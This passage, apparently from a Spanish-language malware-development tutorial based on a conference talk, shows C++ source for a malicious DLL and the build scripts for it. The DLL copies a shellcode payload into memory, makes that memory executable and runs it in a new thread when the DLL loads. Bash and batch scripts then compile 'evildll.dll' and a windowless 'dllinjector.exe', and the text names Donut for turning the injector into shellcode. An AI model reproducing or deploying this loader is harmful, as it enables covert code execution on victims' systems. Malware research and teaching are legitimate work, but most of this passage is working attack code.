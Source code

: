 ```cpp
	RtlMoveMemory(alloc_mem, shellcodePayload, lengthOfshellcodePayload);
	
	retval = VirtualProtect(alloc_mem, lengthOfshellcodePayload, PAGE_EXECUTE_READ, &oldprotect);

	if ( retval != 0 ) {
		threadHandle = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) alloc_mem, 0, 0, 0);
		WaitForSingleObject(threadHandle, 0);
	}
	return 0;
}

BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD reasonForCall, LPVOID lpReserved ) {

	switch ( reasonForCall ) {
	case DLL_PROCESS_ATTACH:
		RunShellcode();
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

Listo!! Hora de compilar nuestro dll. En la ponencia el proceso fue realizado desde un SO Windows en donde se requiere los Native Tools instalados (x64 native tools command prompt for VS 2022) junto con los siguientes scripts :

- Script PoC-maldev/compile.sh : Script de compiladoción para Linux (Bash)
```bash
#!/bin/bash

x86_64-w64-mingw32-g++ -shared -o evildll.dll evildll.def evildll.cpp
x86_64-w64-mingw32-g++ -o dllinjector dllinjector.cpp -lurlmon -lwininet -Wl,--subsystem,windows
```

- Script PoC-maldev/compile.bat : Script de compiladoción para Windows 
```bat
@ECHO OFF

cl.exe /O2 /D_USRDLL /D_WINDLL evildll.cpp evildll.def /MT /link /DLL /OUT:evildll.dll
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tp dllinjector.cpp /link /OUT:dllinjector.exe /SUBSYSTEM:WINDOWS /MACHINE:x64
```

    Esto creara los archivos dllinjector.exe & evil.dll

- Generación de shellcode payload a partir del dllinjector.exe con [Donut](https://github.com/TheWover/donut) y [Wine](https://www.winehq.org/)
